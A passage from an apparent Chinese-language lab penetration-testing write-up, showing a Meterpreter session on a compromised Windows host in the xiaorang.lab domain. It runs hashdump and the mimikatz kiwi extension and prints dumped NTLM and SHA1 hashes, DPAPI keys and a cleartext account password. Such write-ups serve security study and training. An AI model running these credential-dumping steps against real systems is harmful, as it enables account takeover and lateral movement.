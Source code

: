```
[*] DONE
```

获取主机 shell 后，导出 hash：

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9dca627bdcde6df114a3c4a18a09765d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username              Domain    NTLM                              SHA1                                      DPAPI
--------              ------    ----                              ----                                      -----
HealthMailbox0d5918e  XIAORANG  4be799e24df3558eed76fbb667af914d  af9fd5640b5c746476690ec80afafc34a5885549  077dfa1f5b4a20d771775381b8e6a7b0
XIAORANG-EXC01$       XIAORANG  33e36d2a4609e3d963b8c29a3fd664bc  7727da29f94cda04904176dac3fc7d89e52f4feb
XIAORANG-EXC01$       XIAORANG  9587463cfa3fd1ea760c401e2c52e224  162fc915ffccfa73c6f53b3c92f02690ccf7831c
Zhangtong             XIAORANG  22c7f81993e96ac83ac2f3f1903de8b4  4d205f752e28b0a13e7a2da2a956d46cb9d9e01e  ed14c3c4ef895b1d11b04fb4e56bb83b

ssp credentials
===============

Username                                            Domain  Password
--------                                            ------  --------
HealthMailbox0d5918ea7298475bbbb7e3602e1e289d@xiao  (null)  ch=fX;+CPT1(=K$pGBrMh1-Sm.fKb5xyU5j6g5P8/2cZ]XukiY*gX@-}DBe;zdmHaCkDL(HO%TASl@sgipey2K0u#y:hVq
rang.lab                                                    EJoe$o)dJb*W>yB3g|9&(k[RZQ)N2DQ0tj

wdigest credentials
===================

...
```
